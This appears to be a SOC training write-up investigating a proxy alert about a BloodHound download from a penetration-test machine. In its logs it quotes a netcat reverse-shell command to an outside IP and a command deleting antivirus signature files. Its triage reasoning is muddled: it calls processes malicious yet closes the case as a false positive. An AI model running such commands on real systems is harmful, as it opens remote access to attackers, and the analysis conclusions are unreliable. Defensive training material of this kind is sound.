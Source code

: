 # SOC119 - Proxy - Malicious Executable File Detected

We recieved a Medium alert for a malicious executable file detection. 

> **EventID:** 79
> 
> **Event Time:** Mar, 15, 2021, 09:30 PM
> 
> **Rule:** SOC119 - Proxy - Malicious Executable File Detected
> 
> **Level:** Security Analyst
> 
> **Source Address:** 172.16.20.5
> 
> **Source Hostname:** PentestMachine
> 
> **Destination Address:** 140.82.121.4
> 
> **Destination Hostname:** github.com
> 
> **Username:** kali
> 
> **Request URL:** https://github.com/BloodHoundAD/BloodHound/releases
> 
> **User Agent:** Penetration Test - Do not Contain
> 
> **Device Action:** Allowed

## Analysis
We're going to give into the source address some to see if the destination host was contacted. 

![Screenshot 2023-02-17 at 8 24 32 AM](https://user-images.githubusercontent.com/74877876/219664377-e6dda9c2-31cf-4c78-b25b-9b3f0bb67241.png)

We can see it was on March 15, 2021 at 9:30pm which is the time and date of the alert. Let's look at the connection details.

![Screenshot 2023-02-17 at 8 25 55 AM](https://user-images.githubusercontent.com/74877876/219664676-1ed2ccb0-c2ae-45f4-8a44-58a9b2e63f8d.png)

https://github.com/BloodHoundAD/BloodHound/releases was accessed it looks like. 

We're going to look more at the source machine, any details we can find on that file or March 15, 2021. Looks like the source address, 172.16.20.5, is in fact the source hostname, PentestMachine.

No browser log. 

Command log: 13.06.2021 16:23 nmap -sV -sP 172.16.20.0/24

Network connections:
- 13.06.2021 16:23:01 - 172.16.20.1
- 13.06.2021 16:23:06 - 172.16.20.2
- 13.06.2021 16:23:13 - 172.16.20.3
- 13.06.2021 16:23:15 - 172.16.20.4
- 13.06.2021 16:23:19 - 172.16.20.6

The only processes that appear to be suspicious don't have a date. 
- nc 101.32.223.119 1234 -e /bin/sh - transfers the bash code to detected malicious Hong Kong domain using netcat.
- rm -f /var/lib/clamav-unofficial-sigs/pid/clamav-unofficial-sigs.pid - looks like Linux AV and it's signatures were removed. 
- A SQL database was accessed.

![Screenshot 2023-02-17 at 9 19 59 AM](https://user-images.githubusercontent.com/74877876/219680134-b389f0b0-a18e-4d99-8e36-c26cba644f3a.png)

The other processes, I don't find suspicious. They pulled another operating system and run it on VMware on the device. The processes I find suspicious I'm going to determine as malicious but the other processes aren't. 

The host machine is an Ubuntu machine so we know it's not an executable file that was accessed, but we're going to continue to analyze the file. 

**VirusTotal:** 
- Looking at https://github.com/BloodHoundAD/BloodHound/releases doesn't show any malicious detections. 
- Looking at 140.82.121.4 doesn't show any detections but shows the address is based in Denmark and connected to GitHub.
- While there lots of files 140.82.121.4 communicated with BloodHound's GitHub doesn't appear to be one of them. 

Since I'm familiar with GitHub, I looked up BloodHound's GitHub and was able to find the releases page. The URL does match the requested URL.

Let's look at BloodHound's GitHub is about.

![Screenshot 2023-02-17 at 9 11 28 AM](https://user-images.githubusercontent.com/74877876/219678260-90aba689-2db1-4569-b967-5dcf1ef96a08.png)

It definitely seems like their content is for pentesting. 

## Determination
Determining to be false positive since the file was accessed according to the logs but used for pentesting. The file and the logs are suspicious based on the processes performed but looking into the intent of BloodHound's GitHub, the file was used for pentesting.  

While suspicious and the file malicious, it was used for pentesting.

## Helpful Link
- GitHub: https://github.com/BloodHoundAD/BloodHound
- VirusTotal: https://www.virustotal.com/gui/home/upload 
